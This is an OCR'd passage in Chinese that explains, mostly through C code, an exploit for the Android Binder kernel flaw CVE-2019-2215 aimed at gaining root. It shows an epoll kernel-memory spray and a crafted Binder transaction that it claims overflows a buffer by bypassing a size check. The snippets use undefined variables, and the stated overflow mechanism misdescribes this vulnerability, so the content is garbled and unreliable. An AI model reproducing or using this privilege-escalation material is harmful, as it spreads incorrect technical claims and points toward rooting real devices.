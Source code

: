      - 进程获得root权限
     - 可以执行任何系统操作
### code
# CVE-2019-2215 漏洞利用代码解释

下面是对 Android Binder 驱动漏洞 (CVE-2019-2215) 攻击过程的简化代码解释：

## 1. 准备阶段

```c
// exploit_example.c
// 创建 epoll 实例
int epfd = epoll_create(1000);
if (epfd < 0) {
    perror("epoll_create failed");
    return -1;
}

// 准备内存布局，创建多个 epoll_event 对象
struct epoll_event event = {.events = EPOLLIN};
for (int i = 0; i < 512; i++) {
    // 填充内核内存，使目标对象位置可预测
    if (epoll_ctl(epfd, EPOLL_CTL_ADD, pipes[i][0], &event) != 0) {
        perror("epoll_ctl failed");
        return -1;
    }
}
```

## 2. 触发漏洞

```c
// exploit_example.c
// 打开 Binder 设备
int binder_fd = open("/dev/binder", O_RDONLY);
if (binder_fd < 0) {
    perror("Failed to open binder");
    return -1;
}

// 构造特制的 Binder 事务数据
struct binder_transaction_data txn;
memset(&txn, 0, sizeof(txn));

// 设置精心计算的大小值，导致缓冲区溢出
txn.data_size = 0xffffffc0; // 特殊的负值，绕过大小检查
txn.offsets_size = 0;
txn.data.ptr.buffer = (uintptr_t)buffer;
txn.data.ptr.offsets = 0;

// 触发漏洞
ioctl(binder_fd, BINDER_WRITE_READ, &bwr);
```
